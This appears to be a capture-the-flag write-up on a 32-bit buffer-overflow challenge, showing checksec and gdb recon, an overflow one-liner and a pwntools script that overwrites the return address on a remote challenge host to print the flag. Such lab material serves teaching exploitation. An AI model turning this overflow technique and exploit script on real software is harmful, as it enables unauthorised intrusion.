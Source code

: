 # Challenge 1
## Description
Let's start off simple, can you overflow the correct buffer?

### Two files were comrades in the challenge. (vuln.c , vuln)
### vlun.c
<img src="https://github.com/q5fj/Pwn/assets/88992167/76c5aa29-ee1d-4098-bd72-92e7207f575c">

We note that in the code the binary file will not work unless the binary file path contains a file named flag.txt
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a7f786c-8fbc-4524-832f-c38b7a61fcf3">

Also notice we have "gets" in the user input 
 
#### gets - get a string from standard input (DEPRECATED)
<img src="https://github.com/q5fj/Pwn/assets/88992167/0ae608e9-5726-4212-8449-47e2ea331cb7">

#### Now that have analyzed the source, let us move to the binary file:
### vuln
#### Command :-
```
$ file vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b59e5e3-38cb-4508-926f-0961f43efe8e">

The file is 32 bit, let's check the security features : 
#### Command :-
```
$ checksec vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/598555c8-43eb-48d6-a71e-04da7dcd334e">

No stack canary, assume BOF.

Let's run the file and see what happens.
#### Don't forget to create a flag.txt file for the binary to work :-
```
echo "Flag{1234567890}" > flag.txt
```
and run the file:-
```
$ ./vuln
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/1c98a2ec-7e8c-41d5-ab81-c8d787f95f6b">

We also see the user input and the program exits :)

If we remember that it uses the `gets` function, which is a dangerous function that leads to a buffer overflow because it does not read user input.

Let's try to enter a byte higher than 100
```
$ python -c 'print("A" * 150)' | ./vuln
```
We notice that the program printed the contents of the flag.txt file.

<img src="https://github.com/q5fj/Pwn/assets/88992167/b67559bb-9639-4f40-998d-bc256754b291">



#### Now let's start examining the file closely :)

I will use gdb tool
```
$ gdb ./vuln -q
```
I will display the functions inside the file 
#### Command :-
```
gef➤ info functions
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/dc92ea00-d1dd-462f-9b60-d86e3432bb0e">


Let's start by analyzing the main function
#### Command :-
```
gef➤ disassemble main 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b24c7ef-295f-4493-b27e-7d0b74cd88cd">

#### So our function is main :)

Now we need the appropriate offset:-
#### Command :-
```
gef➤  pattern create 150
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a1d8ee4-6bae-467f-a5d4-850eb59e6116">

We have EIP record $eip

<img src="https://github.com/q5fj/Pwn/assets/88992167/8257bcdf-f49a-4c0b-8c2d-34813426a897">

Now let's extract offset 
#### Command :-
```
gef➤  pattern offset haaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/459b9456-3cbc-4cc0-bba9-0dafbd737a3e">

### Let's Start Exploiting 
```
import shutup; shutup.please()
from pwn import *

# elf = context.binary = ELF('./vuln')
# io = elf.process()

host = <HOST>
port = <PORT>
io = remote(host, port)

offset = 25

payload = b''
payload += b'A' * offset
payload += p32(0x1353) # Address for vuln function

io.recv()
io.sendline(payload)
io.interactive()

```
### Then run the exploit and it will print the flag :)
```
$ python exploit.py
```





